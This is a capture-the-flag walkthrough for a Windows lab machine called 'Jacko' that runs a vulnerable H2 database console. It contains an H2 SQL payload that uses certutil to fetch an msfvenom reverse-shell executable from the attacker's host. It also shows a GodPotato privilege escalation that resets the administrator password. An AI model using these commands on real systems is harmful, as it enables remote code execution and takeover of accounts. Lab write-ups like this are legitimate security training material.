









# Jacko

OS: Windows
#Nmap

```sh
# Nmap 7.93 scan initiated Fri Aug 18 18:10:24 2023 as: nmap -sC -sV -vv --min-rate 2000 -oA openscsv -p 80,135,139,445,5040,8082,9092,49664,49665,49666,49667,49668,49669 -Pn 192.168.246.66
Nmap scan report for 192.168.246.66
Host is up, received user-set (0.031s latency).
Scanned at 2023-08-18 18:10:24 +08 for 173s

PORT      STATE SERVICE       REASON  VERSION
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack
5040/tcp  open  unknown       syn-ack
8082/tcp  open  http          syn-ack H2 database http console
|_http-favicon: Unknown favicon MD5: D2FBC2E4FB758DC8672CDEFB4D924540
| http-methods: 
|_  Supported Methods: GET POST
|_http-title: H2 Console
9092/tcp  open  XmlIpcRegSvc? syn-ack
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9092-TCP:V=7.93%I=7%D=8/18%Time=64DF4390%P=x86_64-pc-linux-gnu%r(NU
SF:LL,516,"\0\0\0\0\0\0\0\x05\x009\x000\x001\x001\x007\0\0\0F\0R\0e\0m\0o\
.....
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
...
```
# Port 80

When we open port 80  we can see that it mentions H2 Database engine. `the free Java SQL database engine.`


# Port 8082 and 9092
When we open http://IP:8082 in the browser we see 



If we click on connect we get logged in and we can see the console with the version number H2 1.4.199.



When looking for an exploir or vulnerabiltiy we find:

https://www.exploit-db.com/exploits/49384

Let's try it out:



YESSS! The exploit is working. We ran whoami and got jack\tony as a result! Now we have look for a way to get a shell on the machine.

Hmm... if we run whoami /alll we can already see that we have SeImpersonatePrivilege. But this is for later.

We generate a payload with:
```sh

┌──(kali㉿kali)-[~/PGPRACTICE/JACKO/exploit]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.218 LPORT=80 -f exe -o test.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell.exe
```

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -split -f http://192.168.45.218/test.exe C:/users/tony/test.exe").getInputStream()).useDelimiter("\\Z").next()');

We can now run the binary C:/users/tony/test.exe in the same manner:

And YESS Here we have a shell as.... hmmm whoami is  not working



Luckily we can execute the binary this way:

```cmd
C:\Windows\System32\whoami
jacko\tony
```

We can read the local.txt flag from the desktop of tony.

# Privilege Escalation
As already mentioned we saw that we have SeImpersonatePrivilege   which we can use to escalate our privileges.
 

```cmd
C:\Windows\System32\whoami /all

USER INFORMATION
----------------

User Name  SID                                           
========== ==============================================
jacko\tony S-1-5-21-3761179474-3535027177-3462755717-1001

.....


 ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
.......

ERROR: Unable to get user claims information.

C:\Program Files (x86)>
```

And from the systeminfo we could see that the the target machine has :
- an x64 architecture.
-  Microsoft Windows 10 Pro  10.0.18363 N/A Build 18363

This means we could use PrinterSpoofer to exploit this privilege. The binaries can be found here: 
https://github.com/itm4n/PrintSpoofer/releases


Hmm. no luck with this one.



Might be patched.

Then we will try the next: GodPotato! We wil check which version we will use by checking the .NET framework version in the ‘C:\Windows\Microsoft.NET\Framework’ directory. 



We will use the .NET version 4.  The binaries can be found here: https://github.com/BeichenDream/GodPotato/releases

Once we uploaded the file we can run it:

```cmd

GodPotato-NET4.exe -cmd “c:\users\tony\test.exe”
```

Ah, there is ininitially a connection but it get's constant disconnected. This is the same for a bind shell...

So, we can change the administrator password to the classic “password”:

```cmd
GodPotato-NET4.exe -cmd "net user administrator password"

....
[*] Start Search System Token
[*] PID : 776 Token:0x772  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 2708
The command completed successfully.
```

Yes it worked. we can execute command using impacket-smbexec:



From here we can get a stable shell using the shell we user earlier.




